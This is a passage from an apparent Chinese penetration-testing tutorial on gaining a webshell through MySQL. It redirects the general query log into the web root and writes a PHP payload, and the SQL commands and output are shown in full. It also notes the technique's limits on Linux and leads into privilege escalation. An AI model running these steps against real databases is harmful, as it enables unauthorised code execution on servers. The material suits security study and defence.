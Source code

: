 利用写文件写shell。

利用日志写shell。

^
一般情况下 Linux 系统下面权限分配比较严格，MySQL 用户一般情况下是无法直接往站点根目录写入文件的，这种情况下在 Windows 环境下成功率会很高。
 利用日志写shell：
* Web 文件夹宽松权限可以写入
* Windows 系统下
* 高权限运行 MySQL 或者 Apache

MySQL 5.0 版本以上会创建日志文件，可以通过修改日志的全局变量来 getshell
```bash
mysql> SHOW VARIABLES LIKE 'general%';
+------------------+---------------------------------+
| Variable_name    | Value                           |
+------------------+---------------------------------+
| general_log      | OFF                             |
| general_log_file | /var/lib/mysql/c1595d3a029a.log |
+------------------+---------------------------------+
```
`general_log` 默认关闭，开启它可以记录用户输入的每条命令，会把其保存在对应的日志文件中。
可以尝试自定义日志文件，并向日志文件里面写入内容的话，那么就可以成功 getshell：
```bash
# 更改日志文件位置
set global general_log = "ON";
set global general_log_file='/var/www/html/info.php';

# 查看当前配置
mysql> SHOW VARIABLES LIKE 'general%';
+------------------+-----------------------------+
| Variable_name    | Value                       |
+------------------+-----------------------------+
| general_log      | ON                          |
| general_log_file | /var/www/html/info.php |
+------------------+-----------------------------+

# 往日志里面写入 payload
select '<?php phpinfo();?>';

# 此时已经写到 info.php 文件当中了
root@c1595d3a029a:/var/www/html/$ cat info.php 
/usr/sbin/mysqld, Version: 5.5.61-0ubuntu0.14.04.1 ((Ubuntu)). started with:
Tcp port: 3306  Unix socket: /var/run/mysqld/mysqld.sock
Time                 Id Command    Argument
201031 21:14:46       40 Query    SHOW VARIABLES LIKE 'general%'
201031 21:15:34       40 Query    select '<?php phpinfo();?>
```

这里虽然可以成功写入，但是这个 info.php 是 MySQL 创建的 ：

```
-rw-rw---- 1 mysql mysql 293 Oct 31 21:15 info.php
```
Apache 访问这个 php 文件会出现 HTTP 500 的状态码，结论是 root 系统这种情况基本上不会成功，只有在 Windows 系统下成功率会高一些，不过这里还是可以当做小知识点来学习记录。
那么能不能利用已经获取到的 MySQL 权限来执行系统主机的命令的呢？那就要使用MySQL 提权了。

